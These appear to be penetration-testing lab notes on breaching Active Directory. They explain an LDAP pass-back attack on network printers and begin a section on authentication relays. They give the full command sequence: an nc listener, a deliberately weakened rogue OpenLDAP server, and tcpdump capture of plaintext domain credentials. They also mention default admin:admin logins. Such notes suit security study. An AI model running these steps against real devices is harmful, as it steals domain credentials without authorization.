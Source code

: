 ![[d2f78ae2b44ef76453a80144dac86b4e.png]]

After a foothold you can attempt to recover the credentials, for example by reading configuration files.

LDAP default port: 389.

##### LDAP Pass-back Attack

An attack against network devices such as printers, when we gain access to the device's configuration where the LDAP parameters are specified, for example a web interface, the credentials are usually kept to the default like admin:admin, the password is usually hidden.

in Pass-back attack we can change the IP or hostname of the LDAP server, so the device will attempt to authenticate to our rogue device.

`nc -lvp 389` - Start a listener to test for a connection back after changing the IP in the configuration.

You should get a `supportedCapabilities` response which means the device wants to negotiate the best authentication method you both support, we will need to configure a rogue LDAP server and configure it insecurely to get the credentials in plaintext.

`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd` - Install OpenLDAP

`sudo dpkg-reconfigure -p low slapd` - Configure the rogue server.

Options to choose:

1. No
2. Target domain
3. Same name
4. Any administrator password
5. MDB
6. No
7. Yes

Create ldif file with the following lines:

1. `#<File name>`
2. `dn: cn=config`
3. `replace: olcSaslSecProps` - Specifies the SASL security properties.
4. `olcSaslSecProps: noanonymous,minssf=0,passcred` - `noanonymous` for disabling anonymous login and `minssf` specifies the minimum security strength with 0, which means no protection.

`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart` - Patch the LDAP server.

`ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms` - Verify that the server configuration as been applied.

`tcpdump -SX -i breachad tcp port 389` - Use tcpdump to capture the credentials.

## Authentication Relays

There are a significant amount of services talking to each other in Windows networks, which use built-in authentication method to verify the identity of incoming connections.
